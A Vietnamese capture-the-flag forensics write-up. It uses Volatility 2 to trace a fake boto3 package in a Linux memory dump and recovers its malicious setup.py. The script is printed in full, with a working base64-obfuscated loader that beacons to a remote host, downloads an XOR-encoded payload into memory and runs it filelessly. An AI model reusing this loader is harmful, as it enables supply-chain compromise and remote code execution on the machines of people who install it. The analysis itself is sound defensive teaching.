









# Challenge SquatBot

## 1. Đầu vào challenge và setup Volatility 2

Đầu vào challenge cung cấp 2 file:

- `dump.mem`: file memory dump của máy Linux.

- `Ubuntu_4.15.0-184-generic_profile.zip`: profile kernel Linux tương ứng với phiên bản 4.15.0-184-generic.

Từ file dump.mem và Ubuntu_4.15.0-184-generic_profile.zip, có thể nghĩ ngay tới việc sử dụng Volatility 2 để điều tra.

Trước tiên cần setup để Volatility 2 sử dụng profile Ubuntu_4.15.0-184-generic_profile.zip mà challenge bằng cách đưa file profile vào thư mục volatility/plugins/overlays/linux/, sau đó kiểm tra Volatility 2 đã nhận profile bằng lệnh vol2 --info.

## 2. Kiểm tra process trong memory dump

Bắt đầu điều tra, kiểm tra các process hiện có trong memory dump bằng plugin linux_pstree.

```bash
vol2 -f dump.mem --profile=LinuxUbuntu_4_15_0-184-generic_profilex64 linux_pstree
```

```text
Name                 Pid             Uid
systemd              1
.systemd-journal     432
.systemd-udevd       449
.lvmetad             471
.systemd-timesyn     628             62583
.systemd-network     725             100
.systemd-resolve     742             101
.networkd-dispat     819
.lxcfs               820
.atd                 823
.cron                836
.accounts-daemon     840
.rsyslogd            841             102
.dbus-daemon         851             103
.systemd-logind      857
.sshd                863
..sshd               1344
...sshd              1419            1000
....bash             1420            1000
.login               877
..bash               1295            1000
...sudo              1342
....insmod           1452
.polkitd             878
.unattended-upgr     880
.systemd             1273            1000
..(sd-pam)           1274            1000
.python3             1451            1000
[kthreadd]           2
.[kworker/0:0]       3
.[kworker/0:0H]      4
.[kworker/u2:0]      5
.[mm_percpu_wq]      6
.[ksoftirqd/0]       7
.[rcu_sched]         8
.[rcu_bh]            9
.[migration/0]       10
.[watchdog/0]        11
.[cpuhp/0]           12
.[kdevtmpfs]         13
.[netns]             14
.[rcu_tasks_kthre]   15
.[kauditd]           16
.[khungtaskd]        17
.[oom_reaper]        18
.[writeback]         19
.[kcompactd0]        20
.[ksmd]              21
.[khugepaged]        22
.[crypto]            23
.[kintegrityd]       24
.[kblockd]           25
.[ata_sff]           26
.[md]                27
.[edac-poller]       28
.[devfreq_wq]        29
.[watchdogd]         30
.[kworker/u2:1]      31
.[kworker/0:1]       32
.[kswapd0]           34
.[kworker/u3:0]      35
.[ecryptfs-kthrea]   36
.[kthrotld]          78
.[acpi_thermal_pm]   79
.[scsi_eh_0]         80
.[scsi_tmf_0]        81
.[scsi_eh_1]         82
.[scsi_tmf_1]        83
.[kworker/u2:2]      84
.[kworker/u2:3]      85
.[ipv6_addrconf]     89
.[kstrp]             98
.[charger_manager]   115
.[kworker/0:2]       116
.[kworker/0:3]       166
.[kworker/0:1H]      192
.[scsi_eh_2]         214
.[scsi_tmf_2]        215
.[ttm_swap]          216
.[irq/18-vmwgfx]     217
.[kdmflush]          225
.[bioset]            226
.[raid5wq]           300
.[jbd2/dm-0-8]       361
.[ext4-rsv-conver]   362
.[iscsi_eh]          439
.[ib-comp-wq]        443
.[ib-comp-unb-wq]    444
.[ib_mcast]          446
.[ib_nl_sa_wq]       447
.[rdma_cm]           451
.[iprt-VBoxWQueue]   477
.[jbd2/sda2-8]       614
.[ext4-rsv-conver]   615
```



Chú ý hơn vào chuỗi tiến trình login → bash → sudo → insmod và process python3.

## 3. Kiểm tra command line và Bash history

Tiếp tục sử dụng plugin linux_psaux để kiểm tra command line của các process.

```bash
vol2 -f dump.mem --profile=LinuxUbuntu_4_15_0-184-generic_profilex64 linux_psaux
```

```text
Pid    Uid    Gid    Arguments
1      0      0      /sbin/init maybe-ubiquity
2      0      0      [kthreadd]
3      0      0      [kworker/0:0]
4      0      0      [kworker/0:0H]
5      0      0      [kworker/u2:0]
6      0      0      [mm_percpu_wq]
7      0      0      [ksoftirqd/0]
8      0      0      [rcu_sched]
9      0      0      [rcu_bh]
10     0      0      [migration/0]
11     0      0      [watchdog/0]
12     0      0      [cpuhp/0]
13     0      0      [kdevtmpfs]
14     0      0      [netns]
15     0      0      [rcu_tasks_kthre]
16     0      0      [kauditd]
17     0      0      [khungtaskd]
18     0      0      [oom_reaper]
19     0      0      [writeback]
20     0      0      [kcompactd0]
21     0      0      [ksmd]
22     0      0      [khugepaged]
23     0      0      [crypto]
24     0      0      [kintegrityd]
25     0      0      [kblockd]
26     0      0      [ata_sff]
27     0      0      [md]
28     0      0      [edac-poller]
29     0      0      [devfreq_wq]
30     0      0      [watchdogd]
31     0      0      [kworker/u2:1]
32     0      0      [kworker/0:1]
34     0      0      [kswapd0]
35     0      0      [kworker/u3:0]
36     0      0      [ecryptfs-kthrea]
78     0      0      [kthrotld]
79     0      0      [acpi_thermal_pm]
80     0      0      [scsi_eh_0]
81     0      0      [scsi_tmf_0]
82     0      0      [scsi_eh_1]
83     0      0      [scsi_tmf_1]
84     0      0      [kworker/u2:2]
85     0      0      [kworker/u2:3]
89     0      0      [ipv6_addrconf]
98     0      0      [kstrp]
115    0      0      [charger_manager]
116    0      0      [kworker/0:2]
166    0      0      [kworker/0:3]
192    0      0      [kworker/0:1H]
214    0      0      [scsi_eh_2]
215    0      0      [scsi_tmf_2]
216    0      0      [ttm_swap]
217    0      0      [irq/18-vmwgfx]
225    0      0      [kdmflush]
226    0      0      [bioset]
300    0      0      [raid5wq]
361    0      0      [jbd2/dm-0-8]
362    0      0      [ext4-rsv-conver]
432    0      0      /lib/systemd/systemd-journald
439    0      0      [iscsi_eh]
443    0      0      [ib-comp-wq]
444    0      0      [ib-comp-unb-wq]
446    0      0      [ib_mcast]
447    0      0      [ib_nl_sa_wq]
449    0      0      /lib/systemd/systemd-udevd
451    0      0      [rdma_cm]
471    0      0      /sbin/lvmetad -f
477    0      0      [iprt-VBoxWQueue]
614    0      0      [jbd2/sda2-8]
615    0      0      [ext4-rsv-conver]
628    62583  62583  /lib/systemd/systemd-timesyncd
725    100    102    /lib/systemd/systemd-networkd
742    101    103    /lib/systemd/systemd-resolved
819    0      0      /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
820    0      0      /usr/bin/lxcfs /var/lib/lxcfs/
823    0      0      /usr/sbin/atd -f
836    0      0      /usr/sbin/cron -f
840    0      0      /usr/lib/accountsservice/accounts-daemon
841    102    106    /usr/sbin/rsyslogd -n
851    103    107    /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
857    0      0      /lib/systemd/systemd-logind
863    0      0      /usr/sbin/sshd -D
877    0      1000   /bin/login -p --
878    0      0      /usr/lib/policykit-1/polkitd --no-debug
880    0      0
1273   1000   1000   /lib/systemd/systemd --user
1274   1000   1000   (sd-pam)
1295   1000   1000   -bash
1342   0      0      sudo insmod lime-4.15.0-184-generic.ko path=../dump.mem format=lime
1344   0      0      sshd: developer [priv
1419   1000   1000   sshd: developer@pts/0
1420   1000   1000   -bash
1451   1000   1000   python3 setup.py install
1452   0      0      insmod lime-4.15.0-184-generic.ko path=../dump.mem format=lime
```

### Nhận xét



Kết quả cho thấy insmod đang nạp module lime-4.15.0-184-generic.ko để tạo file dump.mem, nên đây là tiến trình phục vụ thu thập bộ nhớ, không phải dấu hiệu tấn công.

Ngược lại, tiến trình python3 PID 1451 đang chạy lệnh python3 setup.py install dưới user developer. Đây là process cần ưu tiên.

Tiếp theo cần kiểm tra Bash history để biết user developer đã chạy lệnh gì trước khi xuất hiện:

```text
python3 setup.py install
```

```bash
vol2 -f dump.mem --profile=LinuxUbuntu_4_15_0-184-generic_profilex64 linux_bash
```

```text
Pid      Name                 Command Time                   Command
-------- -------------------- ------------------------------ -------
    1295 bash                 2022-06-16 07:17:08 UTC+0000   ls
    1295 bash                 2022-06-16 07:17:08 UTC+0000   pwd
    1295 bash                 2022-06-16 07:17:08 UTC+0000   sudo poweroff
    1295 bash                 2022-06-16 07:17:08 UTC+0000   sudo poweroff
    1295 bash                 2022-06-16 07:17:08 UTC+0000   history
    1295 bash                 2022-06-16 07:17:08 UTC+0000   ip a
    1295 bash                 2022-06-16 07:18:32 UTC+0000   cd LiME/src/
    1295 bash                 2022-06-16 07:19:20 UTC+0000   sudo insmod lime-4.15.0-184-generic.ko "path=../dump.mem format=lime"
    1420 bash                 2022-06-16 07:19:54 UTC+0000   ls
    1420 bash                 2022-06-16 07:19:54 UTC+0000   pwd
    1420 bash                 2022-06-16 07:19:54 UTC+0000   ip a
    1420 bash                 2022-06-16 07:19:54 UTC+0000   history
    1420 bash                 2022-06-16 07:19:54 UTC+0000   sudo poweroff
    1420 bash                 2022-06-16 07:19:54 UTC+0000   sudo poweroff
    1420 bash                 2022-06-16 07:20:45 UTC+0000   ls
    1420 bash                 2022-06-16 07:20:50 UTC+0000   git clone https://github.com/bootooo3/boto3.git
    1420 bash                 2022-06-16 07:20:55 UTC+0000   ls
    1420 bash                 2022-06-16 07:20:57 UTC+0000   cd boto3/
    1420 bash                 2022-06-16 07:20:58 UTC+0000   ls
    1420 bash                 2022-06-16 07:21:17 UTC+0000   python3 setup.py install
```

### Nhận xét

```text
git clone https://github.com/bootooo3/boto3.git
```

attacker tải source từ GitHub trong đó repository `bootooo3` có dấu hiệu giả mạo package boto3.

Sau khi tải repo về, attacker cd boto3/ để thực thi script setup.py. Vì vậy giờ cần recover file setup.py để xem nội dung của script.

plugin linux_psenv và PID 1451 là PID của process python3, có thể xác định file setup.py nằm trong thư mục /home/developer/boto3.

```bash
vol2 -f dump.mem --profile=LinuxUbuntu_4_15_0-184-generic_profilex64 linux_psenv -p 1451
```



## 4. Recover file `setup.py`

Tiếp tục dùng plugin linux_find_file để tìm địa chỉ inode của file setup.py trong page cache, để có thể trích xuất file ra để phân tích.

```bash
vol2 -f dump.mem --profile=LinuxUbuntu_4_15_0-184-generic_profilex64 linux_find_file -F "/home/developer/boto3/setup.py"
```



Biết được địa chỉ inode của file setup.py là 0xffff914f7c197038, tiếp tục dùng plugin linux_find_file với tham số -i để trích xuất file:

```bash
vol2 -f dump.mem --profile=LinuxUbuntu_4_15_0-184-generic_profilex64 linux_find_file -i 0xffff914f7c197038 -O recover/setup.py
```

```python
#!/usr/bin/env python
exec(__import__('base64').b64decode('aW1wb3J0IGN0eXBlcwppbXBvcnQgb3MKaW1wb3J0IHJlcXVlc3RzCmltcG9ydCBzb2NrZXQKaW1wb3J0IHN5cwppbXBvcnQgdGltZQoKZGVmIGNoZWNrSW4oKToKCglkYXRhID0gewoJImFjdGlvbiI6ICJjaGVja2luIiwKCSJ1c2VyIjogb3MuZ2V0bG9naW4oKSwKCSJob3N0Ijogc29ja2V0LmdldGhvc3RuYW1lKCksCgkicGlkIjogb3MuZ2V0cGlkKCksCgkiYXJjaGl0ZWN0dXJlIjogIng2NCIgaWYgc3lzLm1heHNpemUgPiAyKiozMiBlbHNlICJ4ODYiLAoJfQoKCXJlcyA9IHJlcXVlc3RzLnBvc3QoZiJodHRwczovL2ZpbGVzLnB5cGktaW5zdGFsbC5jb20vcGFja2FnZXM/bmFtZT17b3MuZ2V0bG9naW4oKX1Ae3NvY2tldC5nZXRob3N0bmFtZSgpfSIsanNvbj1kYXRhKQoKCWlmIHJlcy5jb250ZW50ICE9ICJPayI6CgkJcmV0dXJuIEZhbHNlCgllbHNlOgoJCXJldHVybiBUcnVlCgoKZGVmIHJ1bihmZCk6CgoJdGltZS5zbGVlcCgxMCkKCW9zLmV4ZWNsKGYiL3Byb2Mvc2VsZi9mZC97ZmR9Iiwic2giKQoKCXdoaWxlKFRydWUpOgoJCWlmIGNoZWNrSW4oKTogb3MuZXhlY2woZiIvcHJvYy9zZWxmL2ZkL3tmZH0iLCJzaCIpCgpJUCA9ICI3Ny43NC4xOTguNTIiClBPUlQgPSA0NDQzCkFERFIgPSAoSVAsIFBPUlQpClNJWkUgPSAxMDI0CgoKY2xpZW50ID0gc29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCwgc29ja2V0LlNPQ0tfU1RSRUFNKQoKY2xpZW50LmNvbm5lY3QoQUREUikKCmZkID0gY3R5cGVzLkNETEwoTm9uZSkuc3lzY2FsbCgzMTksIiIsMSkKCgp3aGlsZShUcnVlKToKCglkYXRhID0gY2xpZW50LnJlY3YoU0laRSkKCglpZiBub3QgZGF0YTogYnJlYWsKCglmb3IgaSBpbiBkYXRhOgoJCW9wZW4oZiIvcHJvYy9zZWxmL2ZkL3tmZH0iLCJhYiIpLndyaXRlKGJ5dGVzKFtpIF4gMjM5XSkpCgpjbGllbnQuY2xvc2UoKQoKZm9yazEgPSBvcy5mb3JrKCkKaWYgMCAhPSBmb3JrMToKCW9zLl9leGl0KDApCgoKb3MuY2hkaXIoIi8iKQpvcy5zZXRzaWQoICApCm9zLnVtYXNrKDApCgoKZm9yazIgPSBvcy5mb3JrKCkKaWYgMCAhPSBmb3JrMjoKCXN5cy5leGl0KDApCgoKcnVuKGZkKQoKCg=='))
"""
distutils/setuptools install script.
"""
import os
import re
from setuptools import find_packages, setup
ROOT = os.path.dirname(__file__)
VERSION_RE = re.compile(r'''__version__ = ['"]([0-9.]+)['"]''')
requires = [
    'botocore>=1.27.9,<1.28.0',
    'jmespath>=0.7.1,<2.0.0',
    's3transfer>=0.6.0,<0.7.0',
]
def get_version():
    init = open(os.path.join(ROOT, 'boto3', '__init__.py')).read()
    return VERSION_RE.search(init).group(1)
setup(
    name='boto3',
    version=get_version(),
    description='The AWS SDK for Python',
    long_description=open('README.rst').read(),
    author='Amazon Web Services',
    url='https://github.com/boto/boto3',
    scripts=[],
    packages=find_packages(exclude=['tests*']),
    package_data={'boto3': ['data/aws/resources/*.json', 'examples/*.rst']},
    include_package_data=True,
    install_requires=requires,
    license="Apache License 2.0",
    python_requires=">= 3.7",
    classifiers=[
        'Development Status :: 5 - Production/Stable',
        'Intended Audience :: Developers',
        'Natural Language :: English',
        'License :: OSI Approved :: Apache Software License',
        'Programming Language :: Python',
        'Programming Language :: Python :: 3',
        'Programming Language :: Python :: 3.7',
        'Programming Language :: Python :: 3.8',
        'Programming Language :: Python :: 3.9',
        'Programming Language :: Python :: 3.10',
    ],
    project_urls={
        'Documentation': 'https://boto3.amazonaws.com/v1/documentation/api/latest/index.html',
        'Source': 'https://github.com/boto/boto3',
    },
)
```

## 5. Phân tích `setup.py`

### 5.1. Base64 loader

Ngay đầu file xuất hiện lệnh:

```python
exec(__import__('base64').b64decode('aW1wb3J0IGN0eXBlcw...'))
```

Lệnh này thực hiện ba thao tác:

- Import module base64.

- Giải mã chuỗi Base64.

- Thực thi trực tiếp nội dung sau giải mã bằng exec().

Điểm đáng chú ý là đoạn mã này nằm trước toàn bộ phần setuptools.setup(). Vì vậy, khi người dùng chạy:

```bash
python3 setup.py install
```

payload bị che giấu trong Base64 sẽ được thực thi ngay lập tức, trước khi quá trình cài đặt package thông thường diễn ra.

### 5.2. Kết nối tới máy chủ điều khiển để tải payload tiếp theo

Sau khi giải mã Base64, stage đầu tiên chứa:

```python
IP = "77.74.198.52"
PORT = 4443
ADDR = (IP, PORT)
SIZE = 1024
```

Tiếp theo, chương trình tạo TCP socket và kết nối tới địa chỉ trên:

```python
client = socket.socket(
    socket.AF_INET,
    socket.SOCK_STREAM
)
client.connect(ADDR)
```

Từ đoạn code có thể xác định IOC mạng đầu tiên:

- `IP`: `77.74.198.52`

- `Port`: `4443`

Đây là máy chủ cung cấp payload stage 2 cho tiến trình độc hại.

### 5.3. Tạo file ẩn trong bộ nhớ bằng `memfd_create`

Payload gọi trực tiếp syscall số 319:

```python
fd = ctypes.CDLL(None).syscall(319, "", 1)
```

Trên Linux x86-64, syscall 319 là:

```text
memfd_create
```

Hàm này tạo một anonymous file chỉ tồn tại trong memory và được truy cập thông qua file descriptor.

Trong trường hợp này, file được tạo không có tên trên filesystem thông thường. Nó chỉ có thể được truy cập qua đường dẫn:

```text
/proc/self/fd/<fd>
```

Đây là kỹ thuật thực thi fileless, giúp payload không xuất hiện dưới dạng file ELF thông thường trên ổ đĩa.

### 5.4. Nhận payload từ C2 và giải mã bằng XOR `0xEF`

Payload được tải theo từng khối 1024 byte:

```python
while True:
    data = client.recv(SIZE)
    if not data:
        break
```

Mỗi byte nhận được được XOR với giá trị 239:

```python
for i in data:
    open(
        f"/proc/self/fd/{fd}",
        "ab"
    ).write(bytes([i ^ 239]))
```

Giá trị khóa:

```text
239 decimal = 0xEF
```

Thuật toán giải mã:

```text
decoded_byte = encrypted_byte XOR 0xEF
```

Sau khi giải mã, dữ liệu được ghi trực tiếp vào anonymous memfd.

Do việc XOR đã được thực hiện trước khi ghi, nội dung recover từ file descriptor là payload đã giải mã hoàn chỉnh và không cần XOR thêm lần nữa.

### 5.5. Đóng kết nối và tách tiến trình bằng double-fork

Sau khi nhận hết dữ liệu, chương trình đóng socket:

```python
client.close()
```

Kết nối đã được sử dụng để tải payload rồi bị đóng trước khi bộ nhớ được thu thập.

Sau khi tải payload, chương trình thực hiện lần fork thứ nhất:

```python
fork1 = os.fork()
if 0 != fork1:
    os._exit(0)
```

Tiến trình cha thoát, còn tiến trình con tiếp tục chạy.

Sau đó chương trình tạo session mới:

```python
os.chdir("/")
os.setsid()
os.umask(0)
```

Tiếp tục fork lần thứ hai:

```python
fork2 = os.fork()
if 0 != fork2:
    sys.exit(0)
```

Đây là kỹ thuật double-fork daemonization.

Mục đích:

- Tách process khỏi terminal SSH.

- Chạy ngầm dưới nền.

- Làm process bị re-parent về PID 1.

- Tránh bị kết thúc khi phiên shell ban đầu đóng.

Điều này khớp với kết quả linux_pstree, khi PID 1451 nằm trực tiếp dưới systemd thay vì nằm dưới Bash PID 1420.

### 5.6. Trì hoãn và thực thi payload từ file descriptor

Hàm run() bắt đầu bằng:

```python
def run(fd):
    time.sleep(10)
```

Payload chờ 10 giây trước khi thực thi.

Khoảng trì hoãn này có thể nhằm:

- Tránh các sandbox chỉ theo dõi trong thời gian ngắn.

- Cho tiến trình cha kết thúc hoàn toàn.

- Làm quá trình cài package nhìn giống đã hoàn tất hoặc bị dừng bình thường.

8. Thực thi payload trực tiếp từ file descriptor.

Sau thời gian chờ, chương trình thực thi anonymous file:

```python
os.execl(
    f"/proc/self/fd/{fd}",
    "sh"
)
```

Đường dẫn thực thi có dạng:

```text
/proc/self/fd/4
```

os.execl() thay thế hoàn toàn process Python hiện tại bằng payload ELF nằm trong memfd.

Chuỗi thực thi:

```text
python3 setup.py install
        ↓
download encrypted payload
        ↓
XOR 0xEF
        ↓
write to memfd
        ↓
exec /proc/self/fd/4
```

### 5.7. Giải thích file descriptor 4

Chương trình thường sử dụng các file descriptor:

- FD 0: stdin.

- FD 1: stdout.

- FD 2: stderr.

Sau đó socket được tạo trước:

```python
client = socket.socket(...)
```

Socket thường nhận FD 3.

Tiếp theo memfd_create() được gọi:

```python
fd = ctypes.CDLL(None).syscall(319, "", 1)
```

Memfd tiếp theo thường nhận FD 4.

Sau khi tải payload, socket bị đóng:

```python
client.close()
```

Do đó kết quả linux_lsof chỉ còn:

```text
python3  PID 1451  FD 4  /:[22758]
```

Điều này chứng minh FD 4 chính là anonymous memfd chứa stage 2.

### Kết luận

File setup.py là một supply-chain loader được chèn mã độc vào package boto3 giả mạo.

Chuỗi hành vi:

```text
Clone repository giả mạo
        ↓
Chạy python3 setup.py install
        ↓
Thực thi Base64 stage
        ↓
Kết nối 77.74.198.52:4443
        ↓
Tạo anonymous memfd
        ↓
Nhận payload và XOR 0xEF
        ↓
Ghi payload vào /proc/self/fd/4
        ↓
Double-fork để chạy nền
        ↓
Thực thi payload fileless
```

Các artifact quan trọng:

- **Malicious repository:** `https://github.com/bootooo3/boto3.git`

- **Stage 1 C2:** `77.74.198.52:4443`

- **XOR key:** `0xEF`

- **Execution path:** `/proc/self/fd/4`

- **Anonymous inode:** `22758`

- **Suspicious domain:** `files.pypi-install.com`

## 6. Recover payload stage 2 từ anonymous memfd

Vậy từ file setup.py, thấy được payload được tải từ C2, giải mã bằng XOR 0xEF rồi ghi vào anonymous memfd; bước tiếp theo là dùng plugin linux_lsof để xác định file descriptor chứa payload stage 2 của PID 1451.

```bash
vol2 -f dump.mem --profile=LinuxUbuntu_4_15_0-184-generic_profilex64 linux_lsof -p 1451
```

```text
Offset             Name                           Pid      FD       Path
------------------ ------------------------------ -------- -------- ----
0xffff914f6f7ec500 python3                            1451        0 /dev/pts/0
0xffff914f6f7ec500 python3                            1451        1 /dev/pts/0
0xffff914f6f7ec500 python3                            1451        2 /dev/pts/0
0xffff914f6f7ec500 python3                            1451        4 /:[22758]
```

Vậy PID 1451 đang giữ một anonymous file tại FD 4, có inode 22758; khả năng là memfd chứa payload stage 2.

